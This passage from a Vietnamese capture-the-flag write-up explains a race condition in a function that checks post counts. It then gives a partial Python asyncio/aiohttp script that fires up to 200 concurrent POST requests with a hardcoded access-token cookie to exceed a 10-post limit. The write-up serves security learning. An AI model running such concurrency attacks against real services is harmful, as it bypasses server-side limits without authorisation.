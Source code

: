 và tại đây:
![image](../CyberSpace%20CTF/img/34.png)
func `CheckNoOfPosts` kiểm tra xem số lượng posts hiện có trước khi cho phép insert 1 post mới. Nếu nhiều req được gửi tới cùng lúc, các yêu cầu có thể nhận được điều kiện số lượng post < 10 và đều được insert vào DB. Điều này xảy ra vì việc check số lượng posts không được thực hiện 1 cách đúng đắn, cho phép các yêu cầu đồng thời bỏ qua giới hạn

### exploit
trước tiên chúng ta cần tìm hiểu về `asyncio` với lib `aiohttp` để có thể gửi nhiều req đồng thời

```
import aiohttp
import asyncio

# endpoint to create posts
url = 'http://localhost/user/posts/create'
# get the accesstoken from the cookies upon login
cookies = {
    "accesstoken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjU0Mjg4MDksImlhdCI6MTcyNTQyODIwOSwicm9sZSI6InVzZXIiLCJ1c2VybmFtZSI6InEifQ.GE0rPczdp8HuqtXXGTyFxtyoHu3itcEM9MkV9IGrAMc"
}

# POST Data
post_data = {
    "title": "Race Condition Test",
    "data": "This is the data for the post"
}

async def send_post(session, semaphore):
    async with semaphore:
        async with session.post(url, json=post_data, cookies=cookies) as response:
            text = await response.text()
            print(f"Response: {text}")

async def main():
    concurrency_limit = 200  # Limit the number of concurrent requests
    semaphore = asyncio.Semaphore(concurrency_limit)

```